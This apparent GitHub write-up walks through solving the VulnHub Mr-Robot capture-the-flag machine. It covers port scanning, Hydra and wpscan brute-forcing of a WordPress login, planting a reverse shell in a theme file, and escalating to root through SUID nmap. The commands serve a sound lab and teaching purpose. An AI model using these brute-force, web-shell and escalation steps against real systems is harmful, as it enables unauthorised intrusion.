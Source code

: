 ### Mr-Robot Machine from VulnHub

I will provide a brief overview of the Mr-Robot machine, available on VulnHub. This machine is free and designed for beginners, offering an entry-level challenge.

#### Description
The Mr-Robot machine is an introductory level CTF (Capture The Flag) challenge available on VulnHub. As a beginner-friendly virtual machine, it aims to provide a learning platform for those new to penetration testing and ethical hacking.

`This VM has three keys hidden in different locations. Your goal is to find all three. Each key is progressively difficult to find.`

So, our goal is to find these 3 keys to solve the machine.

#### Reconnaissance Phase
To begin, I conducted reconnaissance on my network to discover the vulnerable machine. In this phase, I used tools such as Nmap and Naabu to scan for open ports, services, and potential vulnerabilities.

- **Checking Alive Hosts**
  
  ![nmap](https://github.com/MohamedAboElnasr/CTF/assets/114421344/aec6fedb-e758-43d0-80e9-980175c80bc3)
  
  I used the following command with Nmap:
  ```bash
  nmap -sn 192.168.1.1/24
 
  Here, the `-sn` option is used for host discovery.
  
  After the scan, we found the vulnerable machine with the IP '192.168.1.12', so let's proceed with our enumeration.

- **Fast Scan with Naabu**

  ![naabu](https://github.com/MohamedAboElnasr/CTF/assets/114421344/4e1df764-c848-4858-8fcc-cd3d5478103f)
  
  The open ports 80 and 443 suggest that the machine likely hosts a website using HTTP and HTTPS. Let's run Nmap again to check for other alive ports.
  
  ![nmapscan](https://github.com/MohamedAboElnasr/CTF/assets/114421344/9dfb1788-bcd8-4c47-94ad-c44af64a284f)

- **Nmap Options**

  I used the following Nmap command:
  ```bash
  sudo nmap -sS -sV -T4 192.168.1.12
  ```
  - `-sS`: Syn scan for port scanning.
  - `-sV`: Display the version of open ports and services.
  - `-T4`: Set the scan speed to make it faster.

  The Nmap output showed similar results to Naabu, indicating open ports. Our next step is to explore the website hosted on this machine.

  ![website](https://github.com/MohamedAboElnasr/CTF/assets/114421344/491ddf1c-4a8c-4718-8501-766edbb3dfa2)

We began our search for usernames, keys, passwords, or any hints that could grant us initial access. Unfortunately, our search yielded no results. We then proceeded with subdirectory enumeration, utilizing tools like ffuf, dirsearch, dirb, and burpsuite. In this particular challenge, I opted for dirsearch.

While exploring, I discovered a directory named "robots." This directory is often used to instruct search engines, like Google, not to archive the endpoints within. Upon accessing this endpoint, we found two files:

![robots](https://github.com/MohamedAboElnasr/CTF/assets/114421344/f3ac0b0a-3c78-414f-a56a-2c60426e4137)

Within the file `key-1-of-3.txt`, we uncovered the first key:

![Key1](https://github.com/MohamedAboElnasr/CTF/assets/114421344/837bfb9d-d46b-4ad9-acbc-6f4b07cb4bea)

Next, we encountered `fsocity.dic`, a text file containing a whopping 858,160 lines. However, many of these lines were duplicates. To clean up the file, I employed a simple bash command: `sort fsocity.dic | uniq > sorted`, reducing it to 11,451 unique lines.

![sorted](https://github.com/MohamedAboElnasr/CTF/assets/114421344/60d744a7-4d72-466e-96f0-d45d7c90bf7b)

Returning to dirsearch tool, we uncovered another directory named `wp-login.php`. This revelation indicated that the website was built with WordPress. My immediate thought was to leverage wpscan, an excellent tool for extracting plugins and enumerating usernames and passwords. We'll revisit this shortly, but first, we attempted to log in with default credentials like `username=admin&password=admin`. The response informed us that the username was invalid.

![invalid](https://github.com/MohamedAboElnasr/CTF/assets/114421344/e751a152-9ecc-41bd-8ce9-f87a224bd708)

To further our investigation, we turned to Burp Suite for intercepting the request and examining the parameters being sent. Our request looked like this:

![req](https://github.com/MohamedAboElnasr/CTF/assets/114421344/6d760a58-c872-4498-96c6-cd273d2fc2ef)

And here's the corresponding response, where we noticed the mention of an invalid username:

![rep](https://github.com/MohamedAboElnasr/CTF/assets/114421344/39118a5d-41f4-45cb-97bf-21bf04a1b319)
<br>


To employ Hydra, we need to supply it with a list of usernames, the parameters from the request, and the invalid message received from the server:

```bash
hydra -L ./Mr.robot/sorted.txt -p 132 -t 10 192.168.1.12 http-post-form -I '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

![hydra](https://github.com/MohamedAboElnasr/CTF/assets/114421344/1e418d2f-05d7-40aa-9073-0bf243e15581)
<br>

And there we have it—a valid username: `elliot`. Note: Manually type the invalid message into the terminal, as copying it directly didn't work for me, for reasons unknown.

Now, it's time to focus on the password. Remember wpscan? Its turn has come. We will utilize it to enumerate the password for the user `elliot` using the same wordlist:

```bash
wpscan --url http://192.168.1.12/wp-login.php -U elliot -P ./Mr.robot/sorted.txt
```

![wpscan](https://github.com/MohamedAboElnasr/CTF/assets/114421344/29b3ce20-9be0-4395-8690-f32f3148bb6c)
<br>

![wpspassword](https://github.com/MohamedAboElnasr/CTF/assets/114421344/a20b6504-cbc0-42b5-94cb-2eb0676f8864)
<br>

### Initial Access

With the credentials `elliot:ER28-0652`, we can now sign in to the WordPress dashboard. Once logged in, we navigate to `Appearance --> Editor`.

![dashboard](https://github.com/MohamedAboElnasr/CTF/assets/114421344/30b2ee54-67ea-4a80-bd0f-60997263ee1b)

Here, we locate the `404.php` file and replace its content with our reverse shell code, allowing us to gain access to the machine. For this purpose, we use the PHP reverse shell from pentestmonkey, which can be downloaded [here](https://github.com/pentestmonkey/php-reverse-shell).

Remember to update the IP and port with your own:

![changeip_port](https://github.com/MohamedAboElnasr/CTF/assets/114421344/9d3a6578-f253-4b20-bea6-6e049040ee03)

Next, start a netcat (nc) listener on your machine:

![nc](https://github.com/MohamedAboElnasr/CTF/assets/114421344/ff41bc37-dbb6-41f0-9489-fba93a8654e9)

Finally, access any invalid endpoint on the website:

![invalidend](https://github.com/MohamedAboElnasr/CTF/assets/114421344/55fde1cf-9014-4ba6-a542-aca7f267ba26)



* now we are in
  ![we_in](https://github.com/MohamedAboElnasr/CTF/assets/114421344/7d7565bb-2cad-42d7-a77f-21d0fd56b05b)
  <br>
  ### shell initilization
  * after getting into any machine always upgrade your shell, this is going to save your life litteraly
    ```
    which python
    python -c 'import pty;pty.spawn("/bin/bash")'
    Control^Z.##^Z
    echo $TERM
    #save the output
    stty -a
    #save the output
     stty raw -echo;fg #cuz of zsh
     reset
     export TERM=xterm
     export SHELL=bash
     stty rows 56 columns 213 
    ```
 Now, we have an interactive shell!

![interactiveshell](https://github.com/MohamedAboElnasr/CTF/assets/114421344/d8ed4a77-e33a-4aff-961e-10ca527622ae)

After some enumeration inside the system, I found a user called `robot` in the home directory along with a file called `key2`.

![robot](https://github.com/MohamedAboElnasr/CTF/assets/114421344/dd31a1c0-75e1-4e13-ac79-715f24ccaeb7)

### Privilege Escalation

Now, let's read the contents of the `password.raw-md5` file. It appears to be a hashed password for the user `robot`. Let's try to crack the hash using an online tool like CrackStation. We found the password for the `robot` user: `abcdefghijklmnopqrstuvwxyz` from the hash `c3fcd3d76192e4007dfb496cca67e13b`.

![password](https://github.com/MohamedAboElnasr/CTF/assets/114421344/5854fd3b-30fe-4da4-89ce-7622eac08656)

Now, let's switch to the `robot` user and read the second flag.

![key2](https://github.com/MohamedAboElnasr/CTF/assets/114421344/8c4f6bf0-8e16-439c-803b-058ab9d9d4ae)

Now, it's time for the final flag, but first, we need to escalate our privileges.
After some trial and error, such as checking `sudo -l` and attempting to read `crontab`, I found that `nmap` has the SUID bit enabled.

**Note:**
SUID Bit: This is a file permission that allows users to execute the file as the owner of that file.

After discovering that `nmap` has the SUID bit, I referred to [gtfobins](https://gtfobins.github.io/gtfobins/nmap/#suid) and tried the second method:

```bash
nmap --interactive
nmap> !sh
```

![root](https://github.com/MohamedAboElnasr/CTF/assets/114421344/dac25751-cb87-4cf6-baf4-f6687487da31)

Now, we are root! Let's read the final flag.

![key3](https://github.com/MohamedAboElnasr/CTF/assets/114421344/fe844a80-09da-46cd-8e23-7c686d80fad2)

And there we go! We have all three flags. Thank you! <3
